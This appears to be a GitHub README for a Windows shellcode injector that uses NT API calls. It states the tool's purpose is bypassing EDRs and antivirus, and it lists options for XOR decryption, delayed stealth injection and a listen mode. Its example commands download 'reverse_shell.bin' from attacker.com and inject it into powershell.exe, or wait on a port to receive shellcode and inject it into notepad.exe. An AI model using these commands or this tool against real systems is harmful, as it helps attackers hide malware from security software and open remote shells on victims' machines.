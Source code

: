 # Windows NTAPI shellcode injector
Inject shellcode from memory to process using Windows NTAPI for bypassing EDRs and Antiviruses
- Download shellcode from URL
- Listen and wait for shellcode

## Usage

```shell
Usage:
        Injector.exe -u <URL> [-k <xor_key>]
        Injector.exe -p <PID/Process Name> -u <URL> [-k <xor_key>]
        Injector.exe -p <PID/Process Name> -l <LISTEN_PORT> [-k <xor_key>]
        Injector.exe -h
Options:
        -h       Show this menu.
        -u       URL to donwload shellcode from (Not listen mode).
        -p       PID/Process name to be injected (Optional).
        -l       Listen mode port (Not download mode).
        -k       XOR key to use for decryption.
        -s       Stealth mode - the decryption and injection will start after given seconds (Default 18).
        -m       Injection mode - NT or normal(VirtualAllocEx, WriteProcessMemory, CreateRemoteThread).
```

## Examples

Download and inject to powershell.exe
```shell
injector.exe -u http://attacker.com/reverse_shell.bin -p powershell.exe
```

Wait for connection on port 8080, receive shellcode and inject to owned notepad.exe
```shell
injector.exe -l 8080
```

 

